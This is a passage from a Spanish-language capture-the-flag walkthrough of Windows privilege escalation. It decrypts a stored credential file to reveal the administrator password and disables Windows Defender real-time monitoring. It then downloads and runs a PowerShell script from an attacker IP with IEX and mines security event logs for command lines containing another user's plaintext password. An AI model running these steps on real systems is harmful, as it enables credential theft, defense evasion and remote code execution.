01000000d08c9ddf0115d1118c7a00c04fc297eb01000000f2fefa98a0d84f4b917dd8a1f5889c8100000000020000000000106600000001000020000000c2d2dd6646fb78feb6f7920ed36b0ade40efeaec6b090556fe6efb52a7e847cc000000000e8000000002000020000000c41d656142bd869ea7eeae22fc00f0f707ebd676a7f5fe04a0d0932dffac3f48300000006cbf505e52b6e132a07de261042bcdca80d0d12ce7e8e60022ff8d9bc042a437a1c49aa0c7943c58e802d1c758fc5dd340000000c4a81c4415883f937970216c5d91acbf80def08ad70a02b061ec88c9bb4ecd14301828044fefc3415f5e128cfb389cbe8968feb8785914070e8aebd6504afcaa 
```


```powershell
$contra1 = Get-Content admin-pass.xml | ConvertTo-SecureString
$contra2 = (New-Object PSCredential "administrator",$Contra1).GetNetworkCredential().Password
echo $contra2
```

```powershell
mb@letmein@SERVER#acc
```

```
runas /user:Administrator cmd.exe
```



Y ahora si:

```powershell
cipher /d root.txt
```

## User

Con la cmd de administrator desactivaremos el Windows Defender

```
Set-MpPreference -DisableRealtimeMonitoring $true
```

Descargamos `Get-WinEventData.ps1`  [Get-WinEventData.ps1](https://github.com/RamblingCookieMonster/PowerShell/blob/master/Get-WinEventData.ps1) automaticamente se nos cargara la utilidad y con esto podemos enumerar procesos y comandos que se hayan ejecutado anteriormente

```zsh
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5/Get-WinEventData.ps1')
```

Incluso en el script ps1 puedes ver ejemplos del cual tomare uno y solo mostrare un evento para saber si esta funcionando

```zsh
Get-WinEvent -FilterHashtable @{Logname='security';id=4688} -MaxEvents 1 | Get-WinEventData | fl *
```



Podemos ver en la imagen que hay un parametro `e_CommandLine` ese parametro es el que nos interesa filtrar

```powershell
Get-WinEvent -FilterHashtable @{Logname='security';id=4688} | Get-WinEventData | Select e_CommandLine
```

Al momento de listar solo se ve una cierta parte (truncated)



Para arreglar esto usamos el `format table` para que nos muestre el tamaño real

```powershell
Get-WinEvent -FilterHashtable @{Logname='security';id=4688} | Get-WinEventData | Select e_CommandLine | ft -AutoSize
```

De esta manera podemos ver los comandos que estan o que se ejecutaron.



```
tolu
!zaq1234567890pl!99
```

```
runas /user:tolu 
```



```powershell
cipher /d user.txt
```